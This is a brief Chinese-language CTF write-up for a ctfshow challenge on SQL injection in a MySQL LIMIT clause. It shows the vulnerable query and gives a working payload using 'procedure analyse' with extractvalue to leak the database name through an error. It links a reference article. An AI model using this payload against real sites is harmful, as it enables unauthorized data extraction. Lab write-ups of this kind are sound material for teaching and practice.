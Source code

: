 # 知识点
### procedure analyse
[https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html](https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html)
# 思路
```bash
$sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;
```
```bash
?page=10&limit=10 procedure analyse(extractvalue(rand(),concat(0x3a,database())),1);
```
